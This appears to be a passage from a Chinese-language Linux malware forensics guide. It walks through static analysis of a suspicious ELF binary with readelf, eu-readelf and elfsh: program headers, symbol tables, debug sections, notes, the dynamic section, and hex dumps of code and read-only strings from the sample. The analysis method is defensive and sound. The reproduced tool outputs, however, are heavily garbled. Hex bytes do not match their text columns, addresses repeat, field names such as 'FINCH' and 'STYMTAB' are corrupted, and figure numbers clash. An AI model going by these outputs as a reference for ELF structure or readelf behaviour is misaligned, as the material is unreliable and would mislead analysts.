| 023 | comment | 00000000 | 00000012 |
| 024 | debug_ranges | 00000258 | 0000006b |
| 025 | debug_info | 00000250 | 000000a0 |
| 026 | reltab | 00000258 | 000000054 |
| 027 | debug_line | 0000026d | 00000080 |
| 028 | debug_frame | 00000264 | 00000080 |
| 029 | debug_frame | 00000270 | 00000044 |
| 030 | strtab | 00000268 | 00000046 |
| 031 | strtab | 0000026c | 00000044 |
| 032 | strtab | 0000024c | 00000054 |
| 033 | strtab | 00000254 | 00000050
```

```c
typedef struct {
    Elf32_Word  p_type;      /* 段类型 */
    Elf32_Off   p_offset;     /* 段在文件偏移量 */
    Elf32_Addr  p_vaddr;      /* 段的虚拟地址 */
    Elf32_Addr  p_paddr;      /* 段的物理地址 */
    Elf32_Word  p_files;      /* 文件中的段大小 */
    Elf32_Word  p_mems;      /* 内存中的段大小 */
    Elf32_Word  p_flags;      /* 段标志位 */
    Elf32_Word  p_align;      /* 段对齐方式 */
} Elf32_Phd;
```

图 5.60--程序头表

```bash
labMalware-lab:~/home/malware/ Repository$ readelf --program-headers sysfile
Elf file type is EXEC (Executable file)
Entry point 0x8048d4
There are 6 headers, starting at offset 52

Program Headers:

| Type | Offset | VirtAddr | Physaddr | FileSize | MemSize | Flags | Align |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| PHDR | 0x00000000 | 0x00000000 | 0x00000000 | 0x00000000 | 0x0000003c | 0x00000020 | E | 0x4 |
| INTERP | 0x00000004 | 0x000000f8 | 0x000000f8 | 0x000000f8 | 0x00000013 | 0x00000000 | R | 0x1 |
| LOAD | 0x0000001c | 0x00040000 | 0x00040000 | 0x00040000 | 0x0001f8e4 | 0x0000003e | R | 0x4 |
| LOAD | 0x00000020 | 0x00040800 | 0x00040800 | 0x00040800 | 0x0002a097 | 0x00000000 | RW | 0x0 |
| DYNAMIC | 0x00000050 | 0x00040120 | 0x00040120 | 0x00040120 | 0x00000c00 | 0x00000008 | RW | 0x4 |
| NOTE | 0x00000058 | 0x000401a8 | 0x000401a8 | 0x000401a8 | 0x00000020 | 0x00000000 | R | 0x4 |
```

节到段的映射

节:...

- 00 `.interp`

- 01 `.note.ABI_tag .hash .dyn .dynstr .gnu.version .gnu.version_r`

- rel.dyn `.rel.plt .init .text .fini .rodata .eh_frame`

- 03 `.data .dynamic .dtors .jrc .got .bss`

- 04 `.dynamic`

- 05 `.note,ABI_tag`

图 5.61--使用 `readelf` 解析程序头表

# 第 5 章 | 识别与分析

调查人员通过在二进制文件加载到 elf 时对其应用 `pht` 命令，为程序头表的内容提供了另一种视角。本例中的输出（图 5.62）更加直观，展示了所识别出的程序头的性质和目的。


```bash
{elfsh-0.65} pht
[Program Header Table ... PHT]
[Object visible]
[00] 0x08084034 -- 0x080840F4 r-x memz (00000012) foffset (00000052)
files (00000052) 0x080840F4 -- 0x08084017 r-- memz (00000019) foffset (00000244)
files (00000019) align (00000001) == Program Interpreter
[01] 0x02008000 -- 0x0200C7F8 r-x memz (00000280) foffset (00000000)
[02] 0x08000746 align (00000032) == dynamic segment
[03] 0x0800D000 -- 0x0800D470 r-- memz (00000216) foffset (00000480)
files (00000200) align (00000020) == Dynamic linking info
[04] 0x08084120 -- 0x080841E8 r-- memz (00000200) foffset (00000768)
files (00000200) align (00000004) == memz (00000032) foffset (00000264)
files (00000264) align (00000004) == Auxiliary information[SHT correlation]
[Object visible]
[*] SHT is not stripped
[00] PT_PHT
[01] PT_INTERP
[02] LOAD .interp .note_rel.dyn .tag .dynstr .gnu.version
.gnu.version_r .rel.dyn .text .rodata .eh_frame
[03] LOAD .data .dynamic .dtors .got
[04] PT_DYNAMIC
[05] PT_NOTE .ABI_tag
```

图 5.62--使用 `readelf` 解析程序头表

# 从符号表中提取符号信息

如前所述，符号信息存储在 ELF 文件的不同位置。符号即程序变量和函数名。

- ELF 文件的符号表包含符号引用和定义，执行程序可以通过此访问必要的库函数。在实际工作中，符号信息和调试信息被程序员用于调试可执行文件，例如解析程序变量和函数名。
- 在恶意代码环境中，攻击者经常使用 `utils strip` 工具移除主机上的符号信息，这在大多数 Linux 发行版中是标准操作。
- 在我们对符号信息的讨论中，`nm` 和 `eu-nm` 工具（以及 Object Viewer）演示了探测二进制引用。调查人员可以使用 `readelf` 工具进一步探索可执行文件的符号表。

# Linux 系统恶意软件取证指南

通过应用 `--sym` 选项将显示符号信息。同样，`eu-readelf` 工具（可用 `elfutils` 套件）可以使用相同的选项。符号表中的条目将显示符号名称、值、类型、绑定和可见性，如图 5.63 和 5.64 所示。

```c
typedef struct {
    Elf32_Word st_name;      /* 符号名称 (tab索引) */
    Elf32_Word st_value;     /* 符号值 */
    Elf32_Word st_size;       /* 符号大小 */
    unsigned char st_info;   /* 符号类型和绑定 */
    unsigned char st_other;  /* 符号可见性 */
    unsigned char st_shndx;  /* 节索引 */
} Elf32_Section
```

图 5.63--ELF 符号表 (`.symtab`)

图 5.64--ELF 符号表 (`.symtab`)

通过 `readelf` 探索恶意执行文件，调查人员能够导出文件中包含的符号信息。需要注意的是，`readelf` 使用 `--symbols` 选项从动态符号表（位于 `.dynsym` 节）以及符号表（位于 `.symtab`）提取符号引用。

相反，在 `elf` 环境中，分别使用 `sym` 和 `dynsym` 参数独立提取符号表和动态符号表。与 `eu-nm`、`elfsh` 或 Object Viewer 一样，`readelf` 的输出识别相应符号的十六进制地址、大小、类型、类和名称（图 5.65）。

除了显示符号信息外，`readelf` 还可以显示嵌入在可疑执行文件中的调试信息。回想一下：

调试信息（描述了源代码的特征，如行号、变量、函数名、参数和范围）通常供程序员在程序开发阶段作为调试代码的手段。

```bash
lab@Malware:~/home/malware/Malware Repository$ readelf --syms sysfile
```

| Symbol type | Size | Type | Bind | Default | Nmd | Name |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 0 | 00000000 | NTYPE | LOCAL | DEFAULT | UND | |
| 1 | 00084a7a | 45 | FINCH | GLOBAL | DEFAULT | atol@glibc_2.0() |
| 2 | 00084a8a | 78 | FINCH | GLOBAL | DEFAULT | ntolh@glibc_2.0() |
| 3 | 00084a8b | 94 | FINCH | GLOBAL | DEFAULT | vprintf@glibc_2.0() |
| 4 | 00084a8e | 109 | FINCH | GLOBAL | DEFAULT | feeof@glibc_2.0() |
| 5 | 00084a8d | 46 | SECTION | GLOBAL | DEFAULT | getelf@glibc_2.0() |
| 6 | 00084a8c | 87 | FINCH | GLOBAL | DEFAULT | strdup@glibc_2.0() |
| 7 | 00084a8d | 124 | SECTION | GLOBAL | DEFAULT | write@glibc_2.0() |
| 8 | 00084a9e | 113 | SECTION | GLOBAL | DEFAULT | atoi@glibc_2.0() |
| 9 | 00084a9f | 90 | FINCH | GLOBAL | DEFAULT | fork@glibc_2.0() |
| 10 | 00084b0a | 38 | SECTION | GLOBAL | DEFAULT | pclose@glibc_2.0() |
| 11 | 00084b14 | 148 | SECTION | GLOBAL | DEFAULT | select@glibc_2.0() |
| 12 | 00084b2d | 136 | SECTION | GLOBAL | DEFAULT | bcopy@glibc_2.0() |
| 13 | 00084b3d | 57 | SECTION | GLOBAL | DEFAULT | realloc@glibc_2.0() |
| 14 | 00084b4a | 120 | SECTION | GLOBAL | DEFAULT | feeof@glibc_2.0() |
| 15 | 00084b5a | 185 | FINCH | GLOBAL | DEFAULT | popen@glibc_2.0() |
| 16 | 00084b6a | 150 | SECTION | GLOBAL | DEFAULT | list@glibc_2.0() |
| 17 | 00084b74 | 436 | FINCH | GLOBAL | DEFAULT | malloc@glibc_2.0() |
| 18 | 00084b8e | 46 | SECTION | GLOBAL | DEFAULT | getpid() |
| Symbol type | Size | Type | Bind | Default | Nmd | Name |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 0 | 00000000 | NTYPE | LOCAL | DEFAULT | UND | |
| 1 | 00084a94 | | SECTION | LOCAL | | |
| 2 | 00084108 | | SECTION | LOCAL | | |
| 3 | 00084128 | | SECTION | LOCAL | | |
| 4 | 0008412e | | SECTION | LOCAL | | |
| 5 | 00084638 | | SECTION | LOCAL | | |
| 6 | 00084670 | | SECTION | LOCAL | | |
| 7 | 00084894 | | SECTION | LOCAL | | |
| 8 | 0008499a | | SECTION | LOCAL | | |
| 9 | 0008499c | | SECTION | LOCAL | | |
| 10 | 00084a8c | | SECTION | LOCAL | | |
| 11 | 00084a9d | | SECTION | LOCAL | | |
| 12 | 00084bdd4 | | SECTION | LOCAL | | |
| 13 | 00084be4 | | SECTION | LOCAL | | |
| 14 | 00084be5 | | SECTION | LOCAL | | |
| 15 | 00084cf34 | | SECTION | LOCAL | | |
| 16 | 00084d00 | | SECTION | LOCAL | | |
| 17 | 00084d07 | | SECTION | LOCAL | | |
| 18 | 00084de1e | | SECTION | LOCAL | | |
| 19 | 00084d1e | | SECTION | LOCAL | | |
| 20 | 00084d1f | | SECTION | LOCAL | | |
| 21 | 00084d1f | | SECTION | LOCAL | | |
| 22 | 00084d50 | | SECTION | LOCAL | | |
| 23 | 00000000 | | SECTION | LOCAL | | |
| 24 | 00000000 | | SECTION | LOCAL | | |
| 25 | 00000000 | | SECTION | LOCAL | | |
| 26 | 00000000 | | SECTION | LOCAL | | |
| 27 | 00000000 | | SECTION | LOCAL | | |
| 28 | 00000000 | | SECTION | LOCAL | | |
| 29 | 00000000 | | SECTION | LOCAL | | |
| 30 | 00000000 | | SECTION | LOCAL | | |
| 31 | 00000000 | | SECTION | LOCAL | | |
| 32 | 00000000 | | SECTION | LOCAL | | |
| 33 | 00000000 | | SECTION | LOCAL | | <command line> |
| 34 | 00000000 | | FILE | LOCAL | DEFAULT | ABS |

图 5-6—使用 `readelf` 提取符号信息

## 322

## Linux 系统恶意软件科学领域指南

| 索引 | 类型 | 绑定 | 标记 | 路径 |
| :--- | :--- | :--- | :--- | :--- |
| 35: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS /usr/src/build/229343-i38 |
| 36: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS -command line |
| 37: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS -built-in |
| 38: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS abs-note.s |
| 39: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS /usr/src/build/229343-i38 |
| 40: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS abs-note s |
| 41: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS /usr/src/build/229343-i38 |
| 42: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS -command line |
| 43: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS -built-in |
| 44: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS /usr/src/build/229343-i38 |
| 45: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS -command line |
| 46: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS -built-in |
| 47: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS abs-note.s |
| 48: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS abs-init.c |
| 49: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS /usr/src/build/229343-i38 |
| 50: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS -command line |
| 51: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS absinitifi.c |
| 52: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS /usr/src/build/229343-i38 |
| 53: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS -command line |
| 54: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS -built-in |
| 55: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS abs-note.s |
| 56: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS -built-in |
| 57: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS /usr/src/build/229343-i38 |
| 58: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS 12 gear_start |
| 59: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS crstartf.u |
| 60: 004e4e58 | 0 OBJECT | LOCAL | DEFAULT | ABS 18 CORP_LIST |
| 61: 0604d1f0 | 0 OBJECT | LOCAL | DEFAULT | ABS 19 DTOR_LIST |
| 62: 06e2c4d3 | 0 OBJECT | LOCAL | DEFAULT | ABS 15 FRAME_BEGIN_ |
| 63: 06f3a1f1 | 0 OBJECT | LOCAL | DEFAULT | ABS 20 JCR_user |
| 64: 00a4d0b8 | 0 OBJECT | LOCAL | DEFAULT | ABS 16 p.o |
| 65: 06a3d3b0 | 1 OBJECT | LOCAL | DEFAULT | completed.1 |
| 66: 04a3b41c | 0 OBJECT | LOCAL | DEFAULT | ABS 12 do_global_dtors_aux |
| 67: 06e8a85b | 0 FUNC | LOCAL | DEFAULT | ABS 12 frame_dummy |
| 68: 00f3f414 | 0 FUNC | LOCAL | DEFAULT | ABS crstartf.u |
| 69: 094d3e1c | 0 OBJECT | LOCAL | DEFAULT | ABS 15 FRAME_END |
| 70: 07d3f41a | 1 FUNC | LOCAL | DEFAULT | ABS 18 CTOR_END |
| 71: 07a2b1f4 | 0 OBJECT | LOCAL | DEFAULT | ABS 19 DTOR_END |


| 72: 07a2b1f8 | 0 OBJECT | LOCAL | DEFAULT | ABS 20 JCR_END |

| 73: 07a2b4d0 | 0 OBJECT | LOCAL | DEFAULT | ABS 12 do_global_dtors_aux |

| 74: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS /usr/src/build/229343-i38 |

| 75: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS abs-unif. |

| 76: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS-initifi. |

| 77: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS /usr/src/build/229343-i38 |

| 78: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS -command line |

| 79: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS /usr/src/build/229343-i38 |

| 80: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS -command line |

| 81: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS -built-in |

| 82: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS /usr/src/build/229343-i38 |

| 83: 00000000 | 0 FILE | LOCAL | DEFAULT | ABS abs-kiten.c |

| 84: 01f4b020 | 1024 OBJECT | LOCAL | DEFAULT | ABS 22 Buffer.0 |

| 85: 08e4d720 | 4 OBJECT | LOCAL | DEFAULT | 22 1.1 |

| 86: 08e4f8d3 | 3 FUNC | GLOBAL | DEFAULT | 12 unknown |

| 87: 08e4b874 | 4 FUNC | GLOBAL | UND | std@@GLIBC_2.0 |

图 5.65-配置

<为了简洁>

* 调试信息保留在目标文件的 `.debug` 段中，如果是以调试模式编译且未经过剥离（stripped）。调试信息可以揭示有关来源、编译以及目标文件的重要线索。

* 使用 `readelf` 配合 `--debug-dump` 参数从可疑文件中有效挖掘调试信息，如图 5.66 所示（输出已节录）。

* 除了 `readelf`，还可以考虑使用 `stab` 解析可疑执行文件

## 第 5 章 文件识别与分析

```
lab@MalwareLab:~/home/malwarelab/Malware Repository$ readelf --debug-dump sysfile
```

`.debug_arang` 段包含：

| 属性 | 数值 |

| :--- | :--- |

| 长度 | 44 |

| 版本 | 2 |

| 到 .debug_info 的偏移量 | 89c |

| 指针大小 | 4 |

| 段大小 | 0 |

| 地址 | 长度 |

| :--- | :--- |

| 0x0804be64 | 0x14 |

| 0x08048a4c | 0xc0 |

| 0x08048af8 | 0xc2 |

| 0x00000000 | 0x0 |

| 长度 | 36 |

| 版本 | 2 |

| 到 .debug_info 的偏移量 | 94e |

| 指针大小 | 4 |

| 段大小 | 0 |

| 地址 | 长度 |

| :--- | :--- |

| 0x0804be7a | 0x5 |

| 0x08048a61 | 0x2 |

| 0x00000000 | 0x0 |

`.debug_pubnames` 段的内容：

| 属性 | 数值 |

| :--- | :--- |

| 长度 | 33 |

| 版本 | 2 |

| 到 .debug_info 的偏移量 | 0 |

| .debug_info 中区域的大小 | 2204 |

| 偏移量 | 名称 |

| :--- | :--- |

| 2180 | _IO_stdinused |

`.debug_line` 段内容的转储：

| 属性 | 数值 |

| :--- | :--- |

| 长度 | 199 |

| DWARF 版本 | 2 |

| 序言长度 | 193 |

| 最小信息长度 | 1 |

| 'is_stmt' 的初始值 | -1 |

| 行基 | -5 |

| 行范围 | 14 |

| 操码基 | 10 |

- 操码 1 有 0 个参数

- 操码 2 有 1 个参数

- 操码 3 有 1 个参数

- 操码 4 有 1 个参数

- 操码 5 有 1 个参数

- 操码 6 有 0 个参数

- 操码 7 有 0 个参数

- 操码 8 有 0 个参数

- 操码 9 有 1 个参数

目录：

| 条目 | 属性 |

| :--- | :--- |

| 0 | init.c |

| 1 | types.h |

| 2 | wchar.h |

| 3 | stddef.h |

| 4 | config.h |

| 5 | gconv.h |

## 笔记段条目

-- 在提取头表和符号信息时，探测二进制文件中的笔记段条目，这些条目用于标记对象文件的唯一信息，其他程序将检查这些信息的兼容性和性能。

## 第 5 章 文件识别与分析

- 注释部分中的任何区分标记都可能为调查人员提供有用的线索，特别是当代码或其他人工上下文信息证实了这些注释时。

- 数字调查人员可以使用 `readelf` 或 `rread` 配合 `-n` 标志提取任何注释节条目。如下方的所示，二进制节中没有嵌入有价值的注释节（图 5.68）。

```
lab@MalwareLab:~/home/malwarelab/Malware Repository$ eu-readelf -n sysfile
Note segment of 32 bytes at offset 0x108:
Owner Data size Type
GNU 16 VERSION
OS: Linux, ABI: 2.2

lab@MalwareLab:~/home/malwarelab/Malware Repository$ readelf -n sysfile
Notes at offset 0x00000108 with length 0x00000020:
Owner Data size Description
GNU 0x00000010 NT_VERSION (version)
```

**图 5.68.** 使用 eu-readelf 和 reread 检查目标执行文件的 .notes 节

## 动态节条目

如果一个 ELF 文件是动态链接的，该文件将有一个 `.dynamic` 节。该节具有特殊的调查价值，因为它包含了给动态加载器的指令，包括所需的共享库（或依赖项）列表，这些库是二进制文件成功执行所需的。

- 使用 `readelf` 查看 `.dynamic` 节的内容，或者使用 `elftab` 配合 `dyn` 命令对该节进行替代且更显式的解析，该命令描述了工具输出中列出的各种条目（图 5.69）。

- 在识别出恶意程序中的各种节后，通过使用 `readelf` 的 dump 选项 `--hex-dump` 或 `elftab` 中的特定命令来检查特别感兴趣的节。

- 如前所述，数字调查人员的某些节将包括但不限于 `.rodata`、`.dynym`、`.sym`、`.tab`、`.dynstr`、`.comment`、`.strtab` 和 `.text`。

- 要导出你想要分析的单个节，首先要在 ELF 节表中识别分配的节号。我们之前在解析头部表时讨论过，在显示的详细信息中包括节号、名称、类型和地址（图 5.70）。

```
lab@MalwareLab:~/home/malwarelab/Malware Repository$ readelf -d sysfile

Dynamic section at offset 0x5120 contains 20 entries:
```

| | Type | Name/Value |

| :--- | :--- | :--- |

| 0x00000001 | (NEEDED) | [libc.so.6] |

| 0x00000002 | (INIT) | 0x804844c |

| 0x00000003 | (FINI) | 0x804846e |

| 0x00000004 | (HASH) | 0x8048128 |

| 0x00000005 | (INTERP) | 0x80481b8 |

| 0x00000006 | (SYTAB) | 0x80482a8 |

| 0x00000007 | (STRSIZ) | 440 (bytes) |

| 0x00000008 | (SONAME) | 16 (Bytes) |

| 0x00000009 | (DEBUG) | 0x0 |

| 0x0000000a | (PLGOT) | 0x8048d1c |

| 0x0000000b | (PLRELZ) | 432 (bytes) |

| 0x0000000c | (PLT) | REL |

| 0x0000000d | (REL) | 0x8048894 |

| 0x0000000e | (RELZ) | 8 (bytes) |

| 0x0000000f | (ANT_IP) | 8 (bytes) |

| 0xffffff | (VERNEED) | 0x8048864 |

| 0xffffff | (VERSION) | |

| 0xffffff | (VERSUM) | 0x80487f0 |

| 0x00000000 | (NULL) | 0x |

```

```

(elf-35) dyna

[DYN]

```

| | Name | Value |
| :--- | :--- | :--- |
| 00 | Name needed table | libc.so.6 [NEEDED] |
| 01 | Address of init function | 0x8048a4c [INIT] |
| 02 | Address of fini function | 0x804846e [FINI] |
| 03 | Address of symbol table | 0x8048128 [HASH] |
| 04 | Address of dynamic string table | 0x80481b8 [INTERP] |
| 05 | Address of dynamic symbol table | 0x80482a8 [SYTAB] |
| 06 | Size of symbol table | 0x00000000 [STRSIZ] |
| 07 | Size in bytes for rel.plt | 0x00000012 [SONAME] |
| 08 | Debugging entry (null) | 0x00000000 [DEBUG] |
| 09 | Processor defined value | 0x0000d1c [PLGOT] |
| 10 | Size in bytes for rel.rel | 0x00000412 [PLRELZ] |
| 11 | Type in PLT | 0x00000007 [PLT] |
| 12 | Address of .rel | 0x8048894 [REL] |
| 13 | Address of section table | 0x8048864 [RELZ] |
| 14 | Size of .rel | 0x00000008 [ANT_IP] |
| 15 | needed version table | 0x00000008 [VERNEED] |
| 16 | needed version number | 0x80488864 [VERSION] |
| 17 | needed version number | 0x80487f0 [VERSUM] |
| 18 | GNU version | |

**图 5.69.** 使用 readelf 解析 ELF .dynamic 节

- 考虑 ELF 执行的顺序。在某些检查中，根据分析你可能知道哪些节产生了最多的结果。我们将从提取 `.interp` 节开始，它包含了解释器的路径。此信息可以使用图 5.71 所示的方法。此时你的分析已经揭示了动态符号，接下来检查 `.dyn` 节进行动态链接。

## 第 5 章 识别与分析

```
lab@MalwareLab:~/home/malwarelab/Malware Repository$ readelf --section-headers

There are 34 section headers, starting at offset 0x6e4:
```


| | Name | Type | Addr | Off | Size | Flg | Inf Al |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| [0] | NULL | | 000000 | 000000 | 0 | | 0 | 0 |
| [1] | .interp | PROGBITS | 00084f0a | 000004 | 13 | A | 0 0 |
| [2] | .ABI-TAG | PROGBITS | 00084f38 | 000000 | 07 | A A | 0 0 |
| [3] | .hash | HASH | 00084828 | 000000 | 18 | D A | 0 4 |
| [4] | .dynym | STYMTAB | 00084850 | 000010 | 10 | D A | 0 4 |
| [5] | .strtab | PROGBITS | 00084863 | 000006 | 72 | G A | 2 4 |
| [6] | .version | VERSYM | 000849f7 | 000070 | 52 | G A | 2 4 |
| [7] | .rel.rel | PROGBITS | 00084a2e | 000004 | a8 | R | - - - |
| [8] | .rel.dyn | PROGBITS | 00084998 | 000009 | 88 | A | 0 4 |
| [9] | .text | PROGBITS | 00084a38 | 000004 | a0 | A | 0 32 |
| [10] | .init | PROGBITS | 00084a4c | 000004 | 17 | A | 0 4 |
| [11] | .dynamic | PROGBITS | 00084a5d | 000004 | d9 | A | 0 4 |
| [12] | .note | PROGBITS | 00084b64 | 00003e | 64 | B A | 0 4 |
| [13] | .finit | PROGBITS | 00084b7a | 000038 | a8 | A | 0 32 |
| [14] | .data | PROGBITS | 00084b90 | 000038 | f8 | A | 0 12 |
| [15] | .eh_frame | PROGBITS | 00084bd0 | 000034 | f4 | A | 0 12 |
| [16] | .info | PROGBITS | 00084c00 | 000025 | a4 | A | 0 4 |
| [17] | .dynamic | DYNAMIC | 00084e18 | 000005 | 50 | D | 0 |
| [18] | .ctors | PROGBITS | 00084e18 | 000005 | 58 | A | 0 |
| [19] | .dynstr | PROGBITS | 00084e20 | 000005 | 50 | A | 0 4 |
| [20] | .reltab | PROGBITS | 00084e58 | 000018 | f8 | A | 0 4 |
| [21] | .relab | PROGBITS | 00084e6c | 000010 | 54 | A | 0 4 |
| [22] | .comment | NOBITS | 00084f70 | 000010 | b0 | D | 1 |
| [23] | .debug_args | PROGBITS | 00085338 | 000030 | 70 | W | 3 |
| [24] | .debug_progs | PROGBITS | 00085498 | 000005 | 58 | D | 0 |
| [25] | .debug_info | PROGBITS | 000854a0 | 000045 | a0 | A | 0 |
| [26] | .debug_line | PROGBITS | 000855b8 | 000025 | b4 | D | 1 |
| [27] | .debug_frame | PROGBITS | 00086168 | 000016 | e4 | D | 0 |
| [28] | .strtab | STYMTAB | 00086f70 | 000010 | b0 | D | 1 |
| [29] | .shrtab | STYMTAB | 00086f68 | 000006 | b2 | D | 0 |
| [30] | .symtab | STYMTAB | 00087f34 | 000030 | d0 | D | 36 4 |
| [31] | .note | NOTE | 000877c4 | 000007 | 17 | D | 0 |

```bash
lab@MalwareLab:~/home/malwarelab/MalwareRepository$ readelf --dump=5 syscall
```

Hump of section .

0x08408638 70637274 7033062e 6f732e66 62966c0 .lib.so.strcp

0x08408648 00647065 6669006a 69704967 71170079 9y.wait.ioctl.

0x08408658 00647075 64657274 71707272 72707272 v.print.intre.co

0x08408668 69707075 71647070 74657274 74656365 nelt.at.potli

0x08408678 70797070 73635853 63655576 71660074 7y.fdgets.m.py

0x08408688 007370a9 63637264 63657365 70757573 c.slock.socket.s

0x08408698 007370a1 64656464 64657274 74656365 client.send.mail

0x084086a8 70797070 7363706c 62657274 74707274 pr.write.lit.s

0x084086b8 00647075 64657274 74657274 74656365 cat.bind.u.s

0x084086c8 63637274 63656365 64657274 74657274 ddl.rht.notsect

0x084086d8 72737073 71647070 64657274 7465727e nop.strcm.strn

0x084086e8 72737073 71647070 64657274 74656365 sctnd.body.sc

0x084086f8 72737073 71647070 64656264 62966c04 heaf.section.ecc

0x08408708 00647072 00627066 64656365 71747274 tok.list.fork.

0x08408718 72737073 71647070 64657274 74657274 net.network.rs

0x08408728 64657274 74657274 74657274 74707274 getpid.time.use

0x08408738 68657066 64636365 64657274 74657274 byhost.name.fo

0x08408748 580370a6 6e746864 63637573 73757575 se.fputc.h.

0x08408758 00647062 74657274 74657272 72707272 .lrm.location

0x08408768 00647064 6e657069 70667274 74657279 exit.open.ati

0x08408778 50657266 64657274 74657274 74657274 dealloc.u.s

0x08408788 6e696164 5f747272 74737573 62966c05 _lib_main.start

0x08408798 00267070 73637075 006e6564 64747273 strtl.toupper.

0x084087a8 70797074 64657274 74a494c2 00f57f4 _IBC_2.1_GL

0x084087b8 00303202 53345243 74616969 82ec 2.0

FIGURE 5-2.Using the readelf dump to display the contents of a called .dynamic

```bash
lab@MalwareLab:~/home/malwarelab/MalwareRepository$ readelf --dump=5
```

Hump of section

0x0840b8d4 0804e0c0 68525540 08f1892e d1..PTR..

0x0840b8e4 00f4a88d 00625541 64551018 04dcc69 b.QVR..O.

0x0840b8f4 08f1a81d 00008050 53f58895 90f9aef ..U..SP....

0x0840b904 00d1d2f4 00f2a7c 0000a581 08b5a73 ..E...S....

0x0840b914 08f1a2e1 0000c5d8 a129750 08b403d0 u..

0x0840b924 08f1a8f1 0000a1d8 04a8a4d8 6f81714 u.

0x0840b934 08f1a8e8 0064d1c9 00055268 74652871 08b004d0 u.

0x0840b944 08f1a06d 0001c8d3 00655268 74657274 u..

0x0840b954 08f1a880 0063a3d1 8465f4c6 6f85b6c c..

0x0840b964 68e0c8d3 0714a075 00000000 b81974c4 .t..h..t..

0x0840b974 08f4a8e8 00f94be0 b8bf1e43 51e85995 U..S..E....

0x0840b984 08f40e94 00e87fd3 78d372a4 8ea78d83 .'..j'....

0x0840b994 00e88e00 00e9f489 00d0e2f0 45b80000 u..E....

0x0840b9a4 08e4b4c4 0845b40c 77fee8bc 80039000 02e44c57

```
FIGURE 5-73.Examining the contents of .text section with readelf
```

- 只读部分 `.rodata` 是用于获取代码预期行为和功能视图的价值所在，并且通常包含与程序相关的字符串。例如，在图 5.74 中，有许多攻击命令引用，如“packer”和“spoof”。在那里，那里有大量的错误信息、语义和定义，揭示了关于的进一步信息

# 第 5 章 识别与分析

```bash
lab@Malware:~/home/malware/malware Repository$ readelf --hex-dump=14 sys
```


# Hex dump of section '.rodata'

```
0x0048be0 00000000 00000000 00020001 00000003
0x0048be0 65656565 75757574 76767676 75757575 78787878 xxxxxxxxxx
0x0048be0 32323232 32323232 30303030 75757575 .x.net.x.x.x
0x0048be0 61616161 61616161 64646464 64646464 546f5474 NOTHER : U
0x0048be0 2e797363 2e797373 74617262 62626261 nable to.
0x0048be0 66727272 66727272 73737373 00720000 .... /usr/bin/
0x0048be0 61616161 61616161 75757575 75757575 65656565 SHELL
0x0048be0 00000000 00000000 32323232 45454545 UNIX :
0x0048be0 00000000 00000000 00000000 45454545 NOTICE : <
0x0048be0 20202020 20202020 73737373 746f7374 .host = save
0x0048be0 00000000 00000000 00000000 00000000
0x0048be0 00000000 00000000 00000000 00000000
0x0048be0 00000000 00000000 00000000
0x004800 20202020 20202020 20202020 50505050 75757575 HTTP/1.0
0x0048be0 63616161 64646464 65656565 65656565 Connection c
0x0048be0 43616161 61616161 69696969 69696969 74747474 Mozilla/4.0
0x0048be0 65656565 65656555 67676767 64646464 75757575 NOTICE : <
0x0048be0 70707070 70707070 32323233 72727272 Linux/2.2.16-3
0x0048be0 74747474 74747474 61616161 64646464 65656565 .image/
0x0048be0 69696969 69696969 61616161 61616161 63636363 Accept: image/
0x0048be0 70707070 70707070 32323232 72727272 65656565 /image/*
0x0048be0 70707070 70707070 67676767 64646464 69696969 /image/png;
0x0048be0 65656565 65656565 64646464 74747474 75757575 NOTICE :<
0x0048be0 61616161 61616161 64646464 74747474 65656565 .Accepting
0x0048be0 61616161 61616161 69696969 69696969 74747474 NOTICE : <
0x0048be0 63636363 63636363 74747474 74747474 65656565 .application/en
0x0048be0 53737373 73737373 72727272 75757575 45454545 NOTICE :<
0x0048be0 73737373 73737373 64646464 74747474 65656565 .encoding
0x0048be0 61616161 61616161 64646464 64646464 64646464 75757575 NOTICE :<
0x0048be0 65656565 65656565 64646464 64646464 64646464 05007575 NOTICE :<
0x0048be0 61610161 61610161 61616161 61616161 00600060 00000000 77777770707n 00027a3 Wrong password
0x0048be0 77361540 20a30725 20454399 544f4e00 NOTICE : Pass
0x0048be0 00000ae2 74635632 7f6n26 642677 word correct ..
0x0048be0 00000000 00000000 00000000 00000000 NOTICE : Is Retry
0x0048be0 76f0e6f3 00000000 69444e65 69444e65 NOTICE : What is
0x0048be0 0a77f3a7 6f6e6f0 730c6l 6120960 all spots ..
0x0048be0 2731a118 69444e65 69444e65 69444e65 Network is
0x0048be0 61207465 69f25567 20620 kind of subnet
